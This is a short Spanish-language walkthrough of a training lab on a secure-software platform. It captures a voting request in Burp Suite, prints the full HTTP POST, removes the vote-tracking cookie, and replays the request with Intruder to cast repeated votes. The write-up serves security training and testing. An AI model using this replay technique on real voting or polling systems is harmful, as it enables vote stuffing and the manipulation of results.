


Para el laboratorio Votación https://chl-da4501f6-2b7e-4392-a70e-d0ae7c251992-votacion.softwareseguro.com.ar/

Con el enunciado https://app.softwareseguro.com.ar/challenge-statement?challenge-id=12

Se activa la intercepción en Burp Suite

Selecciono UTN y hago click en el botón Votar, lo que ejecuta el endpoit 

Tomo el endpoint POST
POST /src/ctl/votacion.ctl.php HTTP/2
Host: chl-da4501f6-2b7e-4392-a70e-d0ae7c251992-votacion.softwareseguro.com.ar
Cookie: PHPSESSID=c6682df60a72fd96af099714ec891937; voto=s8fvks7dk3ncq0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:156.0) Gecko/20100101 Firefox/156.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: es-AR,es;q=0.9,en-US;q=0.8,en;q=0.7
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 15
Origin: https://chl-da4501f6-2b7e-4392-a70e-d0ae7c251992-votacion.softwareseguro.com.ar
Referer: https://chl-da4501f6-2b7e-4392-a70e-d0ae7c251992-votacion.softwareseguro.com.ar/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

opUniversidad=1

Pruebo el envío repetido de la petición POST

Al quitar el set cookie, puedo repetir la petición sin problemas. Se envía por medio del Intruder para realizar la repetición de votos y completar el laboratorio
